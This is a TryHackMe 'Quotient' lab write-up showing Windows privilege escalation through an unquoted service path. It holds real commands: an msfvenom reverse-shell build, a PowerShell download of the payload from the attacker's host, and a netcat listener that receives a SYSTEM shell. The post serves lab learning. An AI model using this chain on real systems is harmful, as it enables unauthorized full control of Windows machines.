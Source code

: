 ```yaml
---
layout: post
title:  "Quotient"
date:   2022-07-24 10:00:00 +1000
category: hacking
---
```


THM Quotient, Windows unquoted service path, like [this](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

Firstly, login with **xfreerdp** not **rdesktop**. Because xfreerdp works and rdesktop doesn't.

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/quotient]
└─# xfreerdp /u:"sage" /v:10.10.160.163
[06:36:18:262] [3317:3318] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 
[06:36:18:262] [3317:3318] [WARN][com.freerdp.crypto] - CN = thm-quotient
Password:
[06:36:25:286] [3317:3318] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
# etc
{% endhighlight %}

{% highlight shell %}
PS C:\Users\Sage> wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v "*"
Amazon SSM Agent                            AmazonSSMAgent           "C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                 Auto
AWS Lite Guest Agent                        AWSLiteAgent             "C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                   Auto
Developmenet Service                        Development Service      C:\Program Files\Development Files\Devservice Files\Service.exe                    Auto
Windows Defender Antivirus Service          WinDefend                "C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2205.7-0\MsMpEng.exe"     Auto

C:\Users\Sage>sc qc "Development Service"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Development Service
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Development Files\Devservice Files\Service.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Developmenet Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\Sage>cd "C:\Program Files\Development Files"

c:\Program Files\Development Files>icacls "C:\Program Files\Development Files"
C:\Program Files\Development Files BUILTIN\Users:(W)
    NT SERVICE\TrustedInstaller:(I)(F)
    NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
    NT AUTHORITY\SYSTEM:(I)(F)
    NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
    BUILTIN\Administrators:(I)(F)
    BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
    BUILTIN\Users:(I)(RX)
    BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
    CREATOR OWNER:(I)(OI)(CI)(IO)(F)
    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
    APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
    APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
    APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
{% endhighlight %}

Make a service, note the name is the critical part:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/quotient]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.9.0.117 LPORT=443 -f exe -o Devservice.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: Devservice.exe
 
┌──(root💀kali)-[/opt/thm/quotient]
└─# updog                                                                                  
[+] Serving /opt/thm/quotient...
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://192.168.86.44:9090/ (Press CTRL+C to quit)
10.10.160.163 - - [24/Jul/2022 06:15:14] "GET /Devservice.exe HTTP/1.1" 200 -
{% endhighlight %}

Grab the file and call a reboot, since we can't start/stop the service manually:

{% highlight shell %}
c:\Program Files\Development Files>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Program Files\Development Files> iwr http://10.9.0.117:9090/Devservice.exe -OutFile "C:\Program Files\Development Files\Devservice.exe"
PS C:\Program Files\Development Files>shutdown /r /t 0
{% endhighlight %}

and, when the reboot runs (log back in with xfreerdp):

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/quotient]
└─# nc -nvlp 443  
listening on [any] 443 ...
connect to [10.9.0.117] from (UNKNOWN) [10.10.160.163] 49670
Microsoft Windows [Version 10.0.17763.3165]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
{% endhighlight %}

